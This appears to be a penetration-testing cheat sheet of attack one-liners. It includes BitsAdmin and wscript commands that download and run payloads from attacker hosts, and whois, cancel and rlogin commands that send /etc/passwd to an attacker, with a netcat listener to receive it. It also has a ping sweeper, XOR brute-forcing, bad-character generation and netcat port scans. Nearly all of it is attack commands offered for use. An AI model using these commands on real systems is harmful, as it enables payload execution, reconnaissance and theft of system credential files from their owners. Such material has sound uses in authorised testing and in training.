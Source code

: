 HTTP: Windows BitsAdmin

cmd.exe /c "bitsadmin /transfer myjob /download /priority high http://$ATTACKER/payload.exe %tmp%\payload.exe&start %tmp%\payload.exe

Wscript Script Code Download & Execution

echo GetObject("script:https://bad.com/code.js") > code.js && wscript.exe code.js

Whois Data Exfiltration

# attacker
nc -l -v -p 43 | sed "s/ //g" | base64 -d
# victim
whois -h $attackerIP -p 43 cat /etc/passwd | base64

Cancel Data Exfiltration

cancel -u "$(cat /etc/passwd)" -h ip:port

rlogin Data Exfiltration

rlogin -l "$(cat /etc/passwd)" -p port host

Bash Ping Sweeper

#!/bin/bash
for lastOctet in {1..254}; do 
    ping -c 1 10.0.0.$lastOctet | grep "bytes from" | cut -d " " -f 4 | cut -d ":" -f 1 &
done

Brute-forcing XOR'ed string with 1 byte key in Python

encrypted = "encrypted-string-here"
for i in range(0,255):
    print("".join([chr(ord(e) ^ i) for e in encrypted]))

Generating Bad Character Strings

# Python
'\\'.join([ "x{:02x}".format(i) for i in range(1,256) ])

# Bash
for i in {1..255}; do printf "\\\x%02x" $i; done; echo -e "\r"

Converting Python to Windows Executable (.py -> .exe)

python pyinstaller.py --onefile convert-to-exe.py

Port Scanning with NetCat

nc -nvv -w 1 -z host 1000-2000
nc -nv -u -z -w 1 host 160-162
